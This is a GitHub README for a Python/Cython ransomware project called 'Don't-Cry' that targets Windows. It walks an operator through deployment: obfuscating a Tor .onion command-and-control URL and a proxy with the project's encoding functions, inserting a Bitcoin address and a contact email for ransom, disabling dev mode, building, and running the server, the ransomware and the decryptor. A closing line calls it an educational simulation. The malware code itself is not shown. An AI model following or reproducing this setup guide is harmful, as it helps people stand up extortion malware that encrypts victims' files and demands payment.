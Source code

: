 # Don't-Cry Ransomware

![Python](https://img.shields.io/badge/Python-3.12%2B-blue?logo=python\&logoColor=white)
![Cython](https://img.shields.io/badge/Requires-Cython-yellow?logo=python\&logoColor=white)
![License](https://img.shields.io/github/license/memecoder12345678/DCry-Ransomware?style=flat\&logo=open-source-initiative\&logoColor=white)
![Platform](https://img.shields.io/badge/Platform-Windows-blue)
![Status](https://img.shields.io/badge/Status-Temporarily--Inactive-orange)

![DCry](./DCRY.png)

Ransomware using Python 💀💀💀

## Usage
* Open the [`DCry.py`](./src/DCry.py) file.
* Replace the `YOUR_URL` variable with the encoded URL using the `dx42` function like this:
  ```python
  YOUR_URL = dx42(b"YOUR_ENCODED_URL").decode()
  ```
  (Use the `ex42` function from the `edx42` module to encode your URL first.)
  Example:

  ```python
  encoded_url = ex42(b"https://your-tor-server.onion")
  YOUR_URL = dx42(encoded_url).decode()
  ```
* Replace the `YOUR_PROXY` variable similarly with your encoded proxy string:
  ```python
  YOUR_PROXY = dx42(b"YOUR_ENCODED_PROXY").decode()
  ```
* Replace `YOUR_BITCOIN_ADDRESS` with your actual Bitcoin address string.
* Replace `YOUR_EMAIL_ADDRESS` with your actual email address string.
* Set `dev_mode = False` to disable development mode.
* Install the required packages with the following command:
  ```bash
  pip install -r requirements.txt
  ```
* Build the Cython code with the following command:

  ```bash
  python src/setup.py build_ext --inplace
  ```
* Run the server with the following command:

  ```bash
  python src/server.py
  ```
* Run the ransomware with the following command:

  ```bash
  python src/DCRY.py
  ```
* Run the decryptor with the following command:

  ```bash
  python src/decryptor.py
  ```

## Warning

> \[!WARNING]
> This project is a ransomware simulation for educational purposes only.

## License

* This project is licensed under the terms of the [Apache License 2.0](./LICENSE).
